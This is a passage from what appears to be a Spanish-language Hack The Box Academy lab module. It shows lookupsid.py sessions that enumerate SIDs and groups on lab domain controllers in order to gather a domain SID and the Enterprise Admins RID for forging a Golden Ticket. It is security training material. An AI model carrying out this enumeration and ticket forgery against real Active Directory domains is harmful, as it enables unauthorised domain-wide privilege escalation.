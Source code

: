 ```shell-session
526: LOGISTICS\Key Admins (SidTypeGroup)
553: LOGISTICS\RAS and IAS Servers (SidTypeAlias)
571: LOGISTICS\Allowed RODC Password Replication Group (SidTypeAlias)
572: LOGISTICS\Denied RODC Password Replication Group (SidTypeAlias)
1001: LOGISTICS\lab_adm (SidTypeUser)
1002: LOGISTICS\ACADEMY-EA-DC02$ (SidTypeUser)
1103: LOGISTICS\DnsAdmins (SidTypeAlias)
1104: LOGISTICS\DnsUpdateProxy (SidTypeGroup)
1105: LOGISTICS\INLANEFREIGHT$ (SidTypeUser)
1106: LOGISTICS\htb-student_adm (SidTypeUser)
```

Podemos filtrar el ruido canalizando la salida del comando a grep y buscando solo el SID del dominio.
#### Buscando el SID del dominio

```shell-session
lilscott6x9@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

A continuación, podemos volver a ejecutar el comando, apuntando al controlador de dominio INLANEFREIGHT (DC01) en 172.16.5.5 y tomar el dominio `SID S-1-5-21-3842939050-3880317879-2865463114` y adjuntar el RID del grupo de administradores empresariales. [Aquí](https://adsecurity.org/?p=1001) hay una lista útil de SID conocidos.
#### Tomando el dominio SID & Adjuntar al RID del administrador empresarial

```shell-session
lilscott6x9@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```

Hemos recopilado los siguientes puntos de datos para construir el comando para nuestro ataque. Una vez más, utilizaremos al usuario inexistente `hacker` para falsificar nuestro Boleto Dorado.
